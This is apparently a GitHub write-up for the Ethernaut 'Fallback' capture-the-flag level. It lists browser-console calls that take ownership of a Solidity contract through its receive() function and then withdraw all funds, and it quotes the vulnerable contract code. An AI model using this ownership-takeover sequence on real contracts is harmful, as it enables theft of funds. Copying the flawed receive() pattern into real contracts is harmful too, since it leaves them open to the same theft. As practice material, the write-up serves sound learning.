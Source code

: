 # Level 1 - Fallback challenge
<p align="left"> <img src="https://komarev.com/ghpvc/?username=Level1&label=Repository%20views&color=0e75b6&style=flat" alt="wrappedusername" /> </p>

## Player will use browser console for this attack.
```JavaScript
await contract.contribute({value: 1});
await contract.sendTransaction({value: 1 });
await contract.owner();
await contract.withdraw();
```
In order to pass the require statement player must use function contribute() 1 wei will be enough, using the console
player calls await contract.contribute({value: 1}).
```JavaScript
await contract.contribute({value: 1});
```
Next player calls await contract.sendTransaction({value: 1}) to the fallback function receive().
```JavaScript
await contract.sendTransaction({value: 1 });
```
Player can verify ownership with await contract.owner().
```JavaScript
await contract.owner();
```
Player will now be able to withdraw all tokens using await contract.withdraw().
```JavaScript
await contract.withdraw();
```
## Code snippets from contract showing vulnerablities.
```Solidity
 /** 
 @notice This fallback function receive() is the main attack target, in order to pass the 
  require statement player must use function contribute() 1 wei will be enough, using the console
  player calls await contract.contribute({value: 1}), then player calls await contract.sendTransaction({value: 1}),
  player can verify ownership with await contract.owner(), player will now be able to withdraw all tokens. 
  */
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender; 
  }
  
  /** 
  @notice This function could use a withdraw limit, but this allows player to exploit the 
  vulnerability to withdraw all funds using await contract.withdraw() to complete this level. 
  */
  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }
  ```
  
